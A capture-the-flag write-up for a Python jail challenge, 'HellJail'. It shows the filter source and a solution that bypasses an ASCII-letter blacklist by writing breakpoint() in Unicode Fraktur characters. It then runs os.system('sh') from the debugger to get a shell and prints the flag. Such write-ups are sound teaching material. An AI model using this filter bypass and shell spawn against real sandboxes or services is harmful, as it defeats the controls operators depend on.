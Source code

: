 # HellJail
> `-`

## About the Challenge
We were given a source code like this

```python
#!/usr/bin/env python3

from string import ascii_letters

code = input('> ')

if any(c in ascii_letters for c in code):
    print('You will never leave this place!')
elif any(c in '.:;,-_@"=/%\\' for c in code):
    print('You will never reach this point, but still, you CANNOT leave!')
else:
    exec(code)
```

And we need to escape from the sandbox but we can input any ASCII letter and also some of the special character

![preview](images/preview.png)


## How to Solve?
To solve this problem, we need to convert our payload first to gothic font (Im using this [website](https://yaytext.com/fraktur/)) and here is the payload I used

```
𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱()
```

And then after enterring Python debugging, i ran this command

```python
import os
os.system('sh')
```

![flag](images/flag.png)

```
DANTE{4b4nd0n_all_h0p3_y3_who_3nter}
```